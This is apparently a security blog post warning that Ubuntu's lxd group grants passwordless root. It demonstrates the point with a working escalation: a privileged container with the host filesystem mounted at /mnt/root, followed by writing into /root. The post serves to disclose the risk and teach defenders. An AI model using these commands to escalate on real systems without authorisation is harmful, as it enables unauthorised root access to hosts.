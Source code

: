 ```yaml
---
layout: post
title:  "Privilege Escalation via lxd"
date:   2017-09-27 00:00:00 +0100
categories: [lxd]
description: A super simple way to escalate if you find yourself a member of the lxd group
image:
  feature: lxd.jpg
  credit:
  creditlink:
---
```


LXD is Ubuntu's container manager utilising linux containers.  It could be considered to act in the same sphere as docker, 

The lxd group should be considered harmful in the same way the [docker](https://www.andreas-jung.com/contents/on-docker-security-docker-group-considered-harmful) group is.  Under no circumstances should a user in a local container be given access to the lxd group.  This is because it's entirely trivial to exploit.  

Firstly, I'd check if your user is a member of this group, because chances are that if you've installed it and are a sudoer, that you are.  Upon installation, lxd automatically adds every user to the lxd group.  Whilst this could be considered okay, considering that a sudoer automatically has root access, it forgets that sudo has auditing capabilities in place, and does require a password to perform any actions that would be required by root.  In fact, merely installing lxd is equivalent to adding the following in your sudoers file.

{%highlight bash%}
admin    ALL=NOPASSWD: ALL
{%endhighlight%}

If someone gains access to the admin account then immediately they have full root access without a password.  Consider an ssh private key escaping into the wild or an outdated service running under this user, and suddenly an attacker who still hasn't cracked the admin accounts password has full root access, all because you installed lxd. 

{%highlight bash%}
ubuntu@ubuntu:~$ cat /etc/passwd | grep 1000 
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash 
ubuntu@ubuntu:~$ cat /etc/group | grep ubuntu 
adm:x:4:syslog,ubuntu 
cdrom:x:24:ubuntu 
sudo:x:27:ubuntu 
dip:x:30:ubuntu 
plugdev:x:46:ubuntu 
lpadmin:x:113:ubuntu 
ubuntu:x:1000: 
sambashare:x:128:ubuntu 
ubuntu@ubuntu:~$ sudo su 
[sudo] password for ubuntu:  
root@ubuntu:/home/ubuntu# apt-get install lxd 
----SNIP----
root@ubuntu:/home/ubuntu# cat /etc/passwd | grep 1000 
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash 
root@ubuntu:/home/ubuntu# cat /etc/group | grep ubuntu 
adm:x:4:syslog,ubuntu 
cdrom:x:24:ubuntu 
sudo:x:27:ubuntu 
dip:x:30:ubuntu 
plugdev:x:46:ubuntu 
lpadmin:x:113:ubuntu 
ubuntu:x:1000: 
sambashare:x:128:ubuntu 
lxd:x:129:ubuntu 
{%endhighlight%} 

I'm not arguing against the existence of the lxd group, merely that it increases your attack surface without notifying the user at all.  Discovering this was down to a user not realising the power this group gave their account, and whilst sudo privilege was removed, lxd access was not. 

Exploiting
-----------
So it's all good me harping on about the security risks but lets see it in action.  I only found this thanks to [#2003](https://github.com/lxc/lxd/issues/2003)

{%highlight bash%}
ubuntu@ubuntu:~$ lxc init ubuntu:16.04 test -c security.privileged=true 
Creating test 
ubuntu@ubuntu:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
Device whatever added to test 
ubuntu@ubuntu:~$ lxc start test 
ubuntu@ubuntu:~$ lxc exec test bash 
{%endhighlight%}

Here we have created an lxc container, assigned it security privileges and mounted the full disk under `/mnt/root`.  

{%highlight bash%}
ubuntu@ubuntu:~$ lxc exec test bash 
root@test:~# cd /mnt/root 
root@test:/mnt/root# ls 
bin   cdrom  etc   initrd.img  lib64       media  opt   root  sbin  srv  tmp  var 
boot  dev    home  lib         lost+found  mnt    proc  run   snap  sys  usr  vmlinuz 
root@test:/mnt/root# cd root 
root@test:/mnt/root/root# ls 
root@test:/mnt/root/root# touch ICanDoWhatever 
root@test:/mnt/root/root# exit 
exit 
ubuntu@ubuntu:~$ cat /root/ICanDoWhatever 
cat: /root/ICanDoWhatever: Permission denied 
ubuntu@ubuntu:~$ sudo su 
root@ubuntu:/home/ubuntu# cat /root/ICanDoWhatever 
root@ubuntu:/home/ubuntu# ls /root 
ICanDoWhatever 
root@ubuntu:/home/ubuntu#  
{%endhighlight%}

So now see how we haven't once typed our password in or escalated privileges manually.  We could even remove ourselves from sudoers and do all this, making root escalation trivial.  Lesson learnt, use the lxd group with care.
